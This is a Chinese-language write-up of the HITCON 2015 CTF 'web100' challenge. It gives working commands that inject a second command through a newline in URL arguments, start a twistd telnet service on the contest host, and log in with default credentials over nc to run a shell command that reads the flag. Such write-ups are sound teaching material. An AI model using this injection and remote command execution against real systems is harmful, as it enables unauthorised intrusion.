

# HITcon2015CTF web100
### 题目

    baby, do it first.
    http://52.68.245.164

[源码地址](https://gitcafe.com/JJjie/JJjie/tree/gitcafe-pages/ctfcode/hitcon2015/web100)

### 解析
1. `"%0A"`在urlencode下是表示换行

  `http://52.68.245.164/?args[]=a%0A&args[]=touch&args[]=cat`
表示

    /bin/orange a
    touch cat

  我们可以在沙箱类建立一个cat文件

2. `wget`支持长整形的形式，如`http://92775836/`

  wget可以将php文件作为文本下载，通过本地的服务器解释

  wget一个ip只会得到index.html,不能将其直接变为php（有点的限制)

  wget详细参数(点这里)[http://man.linuxde.net/wget]

3. [twistd](https://twistedmatrix.com/trac/)是用Python编写的，并在开源MIT许可协议发布一个事件驱动的网络引擎。

4. talnet，用于Internet的远程登录.它可以使用户坐在已上网的电脑键盘前通过网络进入的另一台电脑已上网的电脑,使它们互相连通.这种连通可以发生在同一房间里面的电脑或是在世界各范围内已上网的电脑.

### 最后破解如下
1. 命令行输入

        while true;
        do wget -qO- "http://52.68.245.164/?args[]=abc%0a&args[]=twistd&args[]=telnet" > /dev/null;
        // -qO- 获取不保存成index.html
        done;

  实际上是请求建立一个如下命令

        /bin/orange abc
        twistd telnet

2.  然后使用nc,`nc 52.68.245.164 4040`

  4040端口是twistd的talnet服务端口

  默认`user/pass: admin/changeme`

  键入

        python -c "import sys;sys.stdout.write(\"admin\r\nchangeme\r\nimport os;print '%r'%os.popen('/read_flag').read();\r\n\")"|nc 52.68.245.164 4040

  flag在`/read_flag`下

  
